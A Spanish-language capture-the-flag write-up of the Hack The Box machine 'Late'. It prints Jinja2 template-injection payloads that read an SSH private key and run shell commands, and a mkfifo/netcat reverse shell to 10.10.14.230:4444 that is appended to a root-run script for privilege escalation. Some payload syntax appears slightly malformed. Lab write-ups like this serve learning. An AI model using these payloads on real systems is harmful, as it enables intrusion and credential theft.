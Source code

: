 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
Esta maquina es una de las sencillas en HtB. Aunque si batalle mucho a la hora del SSTI, tuve que investigar demasiado a fondo sobre esta vulnerabilidad, pero al final persistiendo en el intento lo logre.

## [](#header-2)<a href="#desarrollo">Desarrollo</a>
Despues del tipico escaneo con nmap, vimos que solamente teniamos abiertos los puertos 22 de ssh y 80 del servicio tcp, que correspondia a una pagina web. 
Navegando dentro del codigo de la pagina, encontramos un enlace a convertir tus propias imagenes con texto a texto e icimos la prueba para conocer mas sobre el motor al que le correspondia al procesador de flsk. Con la siguiente cadena:
```py
{% raw %}
{{%7*7%}}
${7*7}
<%=7*7%> 
${{%7*7%}} 
#{7*7}
```

Solamente tenemos que anotarlo en un bloc de notas y tomarle una captura de pantalla, para despues subirlo en el images.Late.htb. Lo que nos daba como resultado en un result.txt, era una compilacion de codigo. El cual representaba una vulnerabilidad en SSTI. La cual viene a gran profundidad en <a href="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">mi pagina favorita</a> y resulta que el motor que esta usando flask es jinja2. Batalle mucho a la hora de tomar las capturas de pantalla, recortar la imagen o simplemente encontrar las variables que se encontraban dentro del programa. El blog que estaba siguiendo no explicaba con claridad el comando que utilizo para llegar a los siguientes pasos, pero me tome la tarea de corregir errores agregando guines bajos '_' en las partes que no reconocia el script que subia. Los ejemplos de las imagenes que llegue a usar son:


Para poder ejecutar comandos de cmd:

![Os cmd](/assets/images/late/os_cmd_request.png)

Para solicitar la flag de usuraio:

![User flag](/assets/images/late/flag_request.png)

Respuesta de la captura anterior:

![Flag result](/assets/images/late/flag_txt.png)

Como en otras maquinas, podremos entrar con el usuario a traves del servicio de ssh, solamente tendremos que copiarnos el /home/svc_acc/id_rsa ya que es posible leerlo desde el servicio de jinja.
Podemos usar el script siguiente:
```py
{{% get_flashed_messages.__globals__.__builtins___.open("/home/svc_acc/.ssh/id_rsa").read() %}}
```

Aqui presente problemas al generar el archivo `authorized_keys` por que como no se muestra en el resultado la correcta ejecusion del comando, tuve que ejecutarlo varias veces. Recomiendo que en el script que se utilice, contenga algo parecido a:

```py
{{% get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("cp /home/svc_acc/.ssh/id_rsa /home/svc_acc/.ssh/authorized_keys").read() %}}

{{% get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("chmod 666 /home/svc_acc/.ssh/authorized_keys").read() %}}

{{% get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("ls").read() %}}
```

Con esto, no podremos ejecutar `ls -l` para ver que los permisos se hayan aplicado, pero al menos podremos ver que el archivo ha sido copiado.

Una vez teniendo la shell, y ejecutar el LinePeas, nos fuimos por lo mas sencillo para escalar privilegios que era en el archivo /usr/local/sbin/ssh-alert.sh que probablemente esta corriendo en todo momento, se puede utilizar pspy para echar un vistaso para ver que esta ocurriendo. La herramienta actualizada se encuentra en <a href="https://github.com/DominicBreuker/pspy">GIT</a> y observaremos con esta herramienta que el servicio lo esta utilizando el usuario con el UID=0, el cual es el perteneciente a root. Asi que procederemos a editar el archivo e inyectarle un script sencillo.

Para inyectar el codigo, primero hay que crear el archivo /tmp/append.txt, el cual dentro tendra:

```s
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.230 4444 >/tmp/f
```

y a continuacion solamente tendremos que ejecutar el comando:

```s
cat /tmp/append.txt >> /usr/local/sbin/ssh-alert.sh
```

Hacemos un append de lo anterior en el archivo ssh-alert.sh, preparamos el reverse shell para capturarlo desde nuestra kali como normalmente lo hacemos con el nc -nlvp 4444, y finalmente obtenemos otra shell con un nuevo usuario que esta vez sera root. Para que se ejecute, bastara con cerrar la sesion con ssh que teniamos e inmediatamente iniciara la coneccion con netcat desde nuestra kali.

![User flag](/assets/images/late/root_access.png)

![Late powned](/assets/images/late/Late_pwnd.png)

